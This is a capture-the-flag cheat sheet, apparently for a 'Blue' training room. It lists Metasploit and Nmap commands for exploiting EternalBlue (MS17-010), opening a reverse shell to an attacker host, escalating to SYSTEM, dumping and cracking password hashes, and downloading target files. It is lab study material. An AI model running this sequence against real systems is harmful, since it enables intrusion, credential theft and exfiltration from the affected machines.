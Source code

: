 # Cheatsheet — Blue Room

| Command / Example | Purpose |
|---|---|
| `msfconsole` | Launch Metasploit console |
| `db_nmap -sS -sV -p- <target>` | Full Nmap scan and import results into Metasploit DB |
| `nmap -sS -sV -p1-1000 <target>` | Quick scan of ports 1–1000 |
| `nmap -p 445 --script smb-vuln-ms17-010 <target>` | Check MS17-010 with Nmap NSE |
| `search ms17-010` | Find MS17-010 related modules in msfconsole |
| `use exploit/windows/smb/ms17_010_eternalblue` | Load EternalBlue exploit module |
| `show options` | List module required/optional settings |
| `set RHOSTS <target-IP>` | Set target host(s) |
| `set payload windows/x64/shell/reverse_tcp` | Choose explicit payload for exploit |
| `set LHOST <attacker-IP>` / `set LPORT <port>` | Configure reverse listener addr/port |
| `exploit` / `run` | Launch the exploit |
| `exploit -z` | Launch exploit and background session immediately |
| `sessions` | List active sessions |
| `sessions -i <id>` | Interact with session `<id>` |
| `CTRL+Z` (interactive shell) / `background` (meterpreter) | Background current shell/session |
| `use post/multi/manage/shell_to_meterpreter` | Module to convert shell → meterpreter |
| `set SESSION <id>` | Select session for post module |
| `run` | Execute the loaded post module |
| `getsystem` | Attempt elevation to NT AUTHORITY\SYSTEM |
| `getuid` | Show current user context |
| `ps` | List running processes on target |
| `migrate <PID>` | Migrate Meterpreter to process `<PID>` |
| `hashdump` | Dump SAM account hashes (requires SYSTEM) |
| `cat > jon_hash.txt <<'EOF' ... EOF` | Save dumped hash to a file on attacker machine |
| `john --wordlist=/usr/share/wordlists/rockyou.txt jon_hash.txt` | Crack NTLM hash with John the Ripper |
| `john --show jon_hash.txt` | Show cracked passwords from file |
| `meterpreter> search -f flag*` | Search filesystem for flag files |
| `meterpreter> download "<remote-path>" /tmp/flag.txt` | Download a target file to attacker |
| `meterpreter> cat "<remote-path>"` or `shell` → `type "<remote-path>"` | View file contents on target |
